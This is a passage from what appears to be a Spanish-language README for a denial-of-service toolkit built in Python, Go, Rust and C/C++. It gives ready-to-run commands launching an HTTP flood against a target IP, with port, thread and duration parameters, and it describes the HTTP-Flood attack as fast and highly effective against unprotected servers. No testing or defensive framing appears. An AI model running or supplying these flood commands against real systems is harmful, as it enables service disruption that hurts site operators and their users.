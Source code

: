 ```bash
# Desde CLI
python cli.py
# Seleccionar: 1 (Python) → Tipo de ataque → Parámetros

# Directo
python python/attacks.py --attack http_flood --target 192.168.1.1 --port 80 --threads 50 --duration 60
```

### Go

```bash
# Desde CLI
python cli.py
# Seleccionar: 2 (Go) → Tipo de ataque → Parámetros

# Directo
cd go && go run attacks.go --attack http_flood --target 192.168.1.1 --port 80 --threads 50 --duration 60
```

### Rust

```bash
# Desde CLI
python cli.py
# Seleccionar: 3 (Rust) → Tipo de ataque → Parámetros

# Directo
cd rust && cargo run --release -- --attack http_flood --target 192.168.1.1 --port 80 --threads 50 --duration 60
```

### C/C++

```bash
# Desde CLI
python cli.py
# Seleccionar: 4 (C/C++) → Tipo de ataque → Parámetros

# Directo
cd c_cpp && make && ./http_flood 192.168.1.1 80 50 60
```

## 📊 Tipos de Ataques

### 1. HTTP-Flood
Envía múltiples solicitudes HTTP GET/POST al objetivo.
- **Velocidad**: Muy rápido
- **Efectividad**: Alta contra servidores sin protección
- **Requisitos**: Ninguno especial
